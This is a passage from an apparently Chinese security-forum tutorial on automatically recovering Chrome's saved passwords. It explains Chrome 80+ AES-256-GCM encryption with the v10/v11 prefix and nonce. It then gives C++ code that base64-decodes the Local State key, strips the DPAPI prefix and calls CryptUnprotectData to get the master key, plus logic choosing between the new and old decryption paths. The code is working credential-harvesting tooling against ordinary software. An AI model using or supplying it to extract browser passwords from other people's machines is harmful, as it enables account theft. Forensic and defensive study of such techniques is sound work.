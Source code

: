 再往下翻,其实可以看到解密函数

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b17fd9708b7c8014cc33c2a04e3101a92829c94c.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b17fd9708b7c8014cc33c2a04e3101a92829c94c.png)

`encrypted_value`的前缀v10后为12字节的NONCE（IV），然后再是真正的密文。Chrome使用的是AES-256-GCM的AEAD对称加密、

那么思路就清晰了,这里我自己画了一个图来总结算法

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1c6e71abb88e43df3fb5f66ba332f6c1d6190728.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1c6e71abb88e43df3fb5f66ba332f6c1d6190728.png)

实现自动化抓密码  
解密使用一个非常强大的库,cryptopp

先获取原始的key

```c++
string GetOriginalkey()
{
    string Decoded = "";
    //获取Local State中的未解密的key
    string key = "RFBBUEkBAAAA0Iyd3wEV0RGMegDAT8KX6wEAAADWXmStECIlTZZxWMAYf5UmAAAAAAIAAAAAABBmAAAAAQAAIAAAAP8V1h3J1qhEf8/h13hre+e3EMW0oD41Ux7UrEqls4DoAAAAAA6AAAAAAgAAIAAAAA7xXGgN1Hks1TbInimvYa0TnMfPa0jPpmlI9BDiUQAAMAAAAPzO7wya37iu97rDB4UTtn5QwQcuJkw2E3cw/tHuSnHdNv4qwXMWLC2oU3TkysoXmUAAAAAtPkLwNaInulyoGNH4GDxlwbzAW4DP7T8XWsZ/2QB0YrcLqxSNytHlV1qvVyO8D20Eu7jKqD/bMW2MzwEa40iF";
    StringSource((BYTE*)key.c_str(), key.size(), true, new Base64Decoder(new StringSink(Decoded)));
    key = Decoded;
    key = key.substr(5);//去除首位5个字符DPAPI
    Decoded.clear();//DPAPI解密
    int i;
    char result[1000] = "";
    DATA_BLOB DataOut = { 0 };
    DATA_BLOB DataVerify = { 0 };
    DataOut.pbData = (BYTE*)key.c_str();
    DataOut.cbData = 1000;
    if (!CryptUnprotectData(&DataOut, nullptr, NULL, NULL, NULL, 0, &DataVerify)) {
        printf("[!] Decryption failure: %d\n", GetLastError());
    }
    else {
        printf("[+] Decryption successfully!\n");
        for (i = 0; i < DataVerify.cbData; i++)
        {
            result[i] = DataVerify.pbData[i];
        }
    }
    return result;
}
```

如果当前chrome版本并不是80+,可以通过一个简单的判断:就是看加密密码前有没有”v10“或者”v11“

```c++
string e_str = argv[2];
//判断密文是否包含v10或v11,如果包含则说明是80+的Chrome,用新的解密方法
if (strstr(e_str.c_str(), "v10") != NULL || strstr(e_str.c_str(), "v11") != NULL)
{
    NewDecrypt(argc, argv, azColName);
}
else {
    DecryptoByDPAPI(argv, azColName);
}
return 0;
```
